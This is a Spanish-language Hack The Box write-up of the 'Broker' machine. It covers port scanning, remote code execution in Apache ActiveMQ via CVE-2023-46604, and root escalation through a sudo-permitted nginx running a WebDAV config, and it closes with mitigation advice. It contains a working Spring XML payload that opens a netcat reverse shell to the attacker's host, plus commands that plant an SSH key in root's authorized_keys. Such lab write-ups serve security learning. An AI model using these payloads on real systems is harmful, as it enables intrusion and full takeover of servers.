








# Broker

[{ .maquina-icono }](https://app.hackthebox.com/machines/Broker)

## Resumen

Máquina Linux cuyo nombre lo dice todo: expone un **broker de mensajería Apache ActiveMQ**
(puerto 61616, OpenWire) en la versión **5.15.15**, vulnerable a la **CVE-2023-46604**, un RCE
crítico. Enviando un paquete OpenWire que referencia un XML de Spring con un `ProcessBuilder`,
el servidor ejecuta nuestros comandos y conseguimos una *reverse shell* como el usuario
`activemq` y la flag de usuario. La escalada a root es directa: `sudo -l` revela que `activemq`
puede ejecutar **`nginx` como root** sin contraseña; con la técnica de **GTFOBins** se arranca
un nginx malicioso con **WebDAV** que permite subir nuestra clave SSH a
`/root/.ssh/authorized_keys` y entrar como root.

## Reconocimiento

Un ping para ver el TTL y el sistema operativo:

```
64 bytes from 10.129.86.10: icmp_seq=1 ttl=63 time=49.9 ms
```

Un TTL cercano a 64 (63) indica **Linux**.

### Enumeración de puertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.86.10
```

```
22/tcp    open  ssh
80/tcp    open  http
1883/tcp  open  mqtt
5672/tcp  open  amqp
8161/tcp  open  patrol-snmp
39441/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Hay muchos puertos de mensajería. Detallamos versiones:

```
nmap -p 22,80,1883,5672,8161,39441,61613,61614,61616 -sVC -T4 --min-rate 5000 10.129.86.10
```

```
22/tcp    open  ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
80/tcp    open  http       nginx 1.18.0 (Ubuntu)
1883/tcp  open  mqtt
5672/tcp  open  amqp?
8161/tcp  open  http       Jetty 9.4.39.v20210325
61613/tcp open  stomp      Apache ActiveMQ
61614/tcp open  http       Jetty 9.4.39.v20210325
61616/tcp open  apachemq   ActiveMQ OpenWire transport 5.15.15
```

Lo importante es el puerto **61616**: **Apache ActiveMQ 5.15.15**. ActiveMQ es un *broker* de
mensajería que encola mensajes entre programas suscritos y los reparte entre ellos. Esa versión
sufre la **CVE-2023-46604**: un fallo en el protocolo **OpenWire** permite ejecutar comandos
arbitrarios en el servidor con los privilegios del *broker* (**RCE**).

## Explotación

Para explotar la vulnerabilidad uso la PoC de
[vulhub (CVE-2023-46604)](https://github.com/vulhub/vulhub/tree/master/activemq/CVE-2023-46604).
La idea de la CVE es que ActiveMQ deserializa una clase indicada por el atacante; se apunta a un
**XML de Spring** servido por nosotros que instancia un `java.lang.ProcessBuilder` con el comando
a ejecutar. Solo hay que editar los `values` del XML para lanzar una *reverse shell* con `mkfifo`:



```xml
<bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
        <list>
            <value>bash</value>
            <value>-c</value>
            <value>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.15.39 4444 >/tmp/f</value>
        </list>
    </constructor-arg>
</bean>
```

Servimos el XML, ponemos un *listener* y lanzamos el *exploit*. Al ejecutarse, recibimos la shell:



Ya dentro, comprobamos quién somos y leemos la flag de usuario:



```
USER FLAG -> [censurada]
```

## Escalada de privilegios

Revisamos qué puede ejecutar `activemq` con `sudo`:

```
sudo -l
```



```
User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

Podemos ejecutar **`nginx` como root**. En [GTFOBins](https://gtfobins.github.io/gtfobins/nginx/)
la técnica consiste en arrancar `nginx` con una **configuración propia** que habilita **WebDAV**
(`dav_methods PUT`), de modo que, corriendo como root, podamos **escribir ficheros en cualquier
ruta** del sistema:



El plan es subir nuestra clave pública a `/root/.ssh/authorized_keys`. Creamos una config que
sirve el sistema de ficheros con PUT habilitado y la arrancamos como root:

```
cat > /tmp/nginx_root.conf <<'EOF'
user root;
events {}
http {
  server {
    listen 1337;
    root /;
    autoindex on;
    dav_methods PUT;
    create_full_put_path on;
  }
}
EOF

sudo /usr/sbin/nginx -c /tmp/nginx_root.conf
```

Generamos un par de claves SSH en nuestra máquina:

```
ssh-keygen -t rsa -f /tmp/rootkey -N ""
```



Preparamos la ruta y subimos nuestra clave pública como `authorized_keys` de root, usando el PUT
de WebDAV que ahora sirve nginx como root:



```
curl -X PUT http://10.129.86.10:1337/root/.ssh/authorized_keys --data-binary @/tmp/rootkey.pub
```

Con nuestra clave ya autorizada, entramos por SSH como **root**:

```
ssh -i /tmp/rootkey root@10.129.86.10
```


Y leemos la flag:



```
ROOT FLAG -> [censurada]
```

## Mitigación

- **Actualizar Apache ActiveMQ** a una versión que corrija la **CVE-2023-46604**, y no exponer el
  puerto OpenWire (61616) a redes no confiables: filtrarlo o restringirlo por *firewall*.
- **Revisar las reglas de `sudo`**: permitir `nginx` (o cualquier binario que cargue
  configuración arbitraria) como root sin contraseña equivale a dar root. Si un servicio debe
  reiniciarse, usar una acción concreta y acotada, no el binario completo.
- Aplicar el **principio de mínimo privilegio** a la cuenta de servicio `activemq` y vigilar la
  escritura en `/root/.ssh/`.

## Qué he aprendido

- Enumerar **todos** los puertos importa: el camino no estaba en el 80, sino en un *broker* de
  mensajería (61616) fácil de pasar por alto.
- La **CVE-2023-46604** es un recordatorio de lo peligrosa que es la *deserialización*: basta con
  que el servidor instancie una clase que tú controlas (`ProcessBuilder`) para tener RCE.
- Un binario aparentemente inofensivo como **`nginx`** es una escalada directa vía `sudo` si puede
  cargar una config propia: con WebDAV se convierte en escritura arbitraria como root.
